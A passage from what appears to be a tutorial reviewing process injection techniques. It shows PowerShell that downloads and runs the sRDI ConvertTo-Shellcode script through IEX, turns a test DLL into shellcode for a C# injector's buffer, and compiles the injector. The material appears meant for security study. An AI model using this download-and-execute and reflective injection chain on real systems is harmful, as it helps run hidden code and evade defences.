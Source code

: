 To allow us to load it reflectively, we'll use a script called [ConvertTo-Shellcode](https://github.com/monoxgas/sRDI/blob/master/PowerShell/ConvertTo-Shellcode.ps1) from 
[Silent Break Security](https://silentbreaksecurity.com/srdi-shellcode-reflective-dll-injection/):

```powershell
$url = "https://raw.githubusercontent.com/monoxgas/sRDI/master/PowerShell/ConvertTo-Shellcode.ps1"
$wc = New-Object Net.WebClient
$wc.DownloadString($url) | IEX
$bytes = ConvertTo-Shellcode -File C:\Users\Public\inject_test2.dll
$hex = $bytes | %{"{0:X2}" -f $_} | %{"0x" + $_}
for ($i=0; $i -lt $hex.length; $i+=24){$j=$i+23;[array]$z+="$($hex[$i..$j] -join ', '), "}
$z | Set-Clipboard
```

<br>

We can now have the shellcode copied to our clipboard and can paste it into our sc buffer in `inject_test.cs` so that it will run the reflective DLL when recompiled:

![](./images/Review%20of%20Process%20Injection%20Techniques/image040.png)<br><br>


Compile into DLL with:

```powershell
csc /out:inject_refl_test.exe inject_test.cs`
```

![](./images/Review%20of%20Process%20Injection%20Techniques/image042.png)<br><br>
